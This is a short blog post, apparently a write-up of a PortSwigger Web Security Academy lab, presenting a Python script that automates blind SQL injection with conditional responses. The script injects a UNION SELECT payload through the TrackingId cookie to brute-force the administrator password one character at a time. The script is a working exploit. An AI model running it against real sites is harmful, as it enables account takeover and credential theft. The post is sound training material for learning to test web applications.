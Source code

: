 ```yaml
---
layout: post
current: post
cover: 'assets/images/websecacademy/blindsql/cover.jpeg'
navigation: True
title: "Blind SQL injection with conditional responses script"
date: 2021-01-02 00:00:00
tags: [websecurityacademy, sqli, python]
class: post-template
subclass: 'post'
author: darryn
---
```

![blindsql](/assets/images/websecacademy/blindsql/cover.jpeg)

### Overview

This post is to provide the script I created to automate the process of using blind SQL injection with conditional responses to brute force a password. This was completed for a lab while completing the SQL Injection topic on [WebSecurity Academy](https://portswigger.net/web-security). I can't recommend this training enough, the content is well written and the labs are great and best of all its free!

As part of the lab I completed process in 3 ways, manually using Burp repeater, using Burp intruder and finally by writing this Python script. I still learning Python and this was a good exercise to do more Python coding and also reenforce the learning. 

### Final Script

```highlight
# 02/01/21
# blind-sql-lab.py
# https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
# POC script to automate getting the administrator password using blind sql conditional responses

import requests
import string

url = "" # Insert URL here!

cookievalue = ""
password = ""

cookies = {'TrackingId':cookievalue}

characters = list(string.ascii_lowercase)
characters = characters + list(string.digits)

for i in range(1,21):
    for char in characters:
        cookievalue = "x'+UNION SELECT+'a' FROM users WHERE username='administrator' AND substring(password,{},1)='{}'--".format(i,char)
        cookies = {'TrackingId':cookievalue}
        r = requests.get(url, cookies=cookies)
        response = r.text
        if "Welcome back!" in response:
            print(char)
            password = password + char
            
print("Password is: " + password)
```

### Next Steps

The script could be a lot better, for example:

- Initial check to test the website is up
- Run a test conditional check to test for SQL injection
- Automate the process of finding the password length and pass to the range function

Thanks for reading!
